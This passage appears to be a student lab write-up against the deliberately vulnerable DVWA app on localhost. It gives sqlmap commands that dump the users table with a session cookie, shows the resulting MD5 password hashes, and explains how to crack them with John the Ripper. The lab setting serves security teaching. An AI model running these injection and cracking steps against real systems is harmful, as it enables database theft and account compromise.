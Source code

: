 2. **Get users information**:
   Now, to get the users table information, run:
   ```bash
   sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=our-session-id; security=low" -D dvwa -T users --columns
   ```
   This will display the column names in the `users` table. we  see columns such as:
   ```
    ![Screenshot 2024-10-22 111612](https://github.com/user-attachments/assets/fab93bc5-df9b-4e74-926e-085d7d2b3ebc)
   ```

3. **Dump user data**:
   Finally, dump the contents of the `users` table:
   ```bash
   sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=our-session-id; security=low" -D dvwa -T users --dump
   ```
   The output will display usernames and their hashed passwords:
      ![Screenshot 2024-10-22 111904](https://github.com/user-attachments/assets/c2b0bc3e-abd2-4644-bf39-fff3ad24b354)

   ```

+---------+----------------------------------+
| user    | password                         |
+---------+----------------------------------+
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 |
| user    | 5d41402abc4b2a76b9719d911017c592 |



---

### Question 3: Make use of John the Ripper to disclose the password of all database users from the above exploit

**Answer 3:**

#### Steps:
1. **Install John the Ripper**:
   If John the Ripper is not installed, install it by running:
   ```bash
   sudo apt-get install john
   ```

2. **Save the hashed passwords**:
   Create a text file (`hashes.txt`) and add the dumped hashed passwords, formatted like:
   ```
   admin:5f4dcc3b5aa765d61d8327deb882cf99
   user:5d41402abc4b2a76b9719d911017c592
   ```

3. **Run John the Ripper**:
   Use John to crack the passwords:
   ```bash
   john --format=raw-md5 hashes.txt
   ```
